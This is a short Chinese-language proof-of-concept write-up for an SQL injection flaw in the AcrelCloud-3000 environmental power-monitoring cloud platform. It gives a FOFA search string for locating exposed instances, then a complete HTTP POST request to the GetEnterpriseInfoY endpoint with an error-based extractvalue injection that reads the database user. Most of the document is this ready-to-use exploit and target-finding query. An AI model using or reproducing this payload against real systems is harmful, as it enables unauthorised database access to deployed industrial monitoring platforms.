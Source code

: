 # 安科瑞环保用电监管云平台etEnterpriseInfoY存在SQL注入漏洞

AcrelCloud-3000环保用电监管云平台依托创新的物联网电力传感技术，实时采集企业总用电、生产设备及环保治理设备用电数据，通过关联分析、超限分析、停电分析、停限产分析，结合及时发现环保治理设备未开启、异常关闭及减速、空转、降频等异常情况，同时通过数据分析还可以实时监控限产和停产整治企业运行状态，用户可以利用PC、手机、平板电脑等多种终端实现对平台的访问。

## fofa

```javascript
body="myCss/phone.css"
```

## poc

```javascript
POST /MainMonitor/GetEnterpriseInfoY HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/plain, */*; q=0.01

EnterpriseId=2107265665700008%27and%2F%2A%2A%2Fextractvalue%281%2Cconcat%28char%28126%29%2Cuser%28%29%29%29and%27&Type=4
```

![image-20241227215812734](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272158792.png)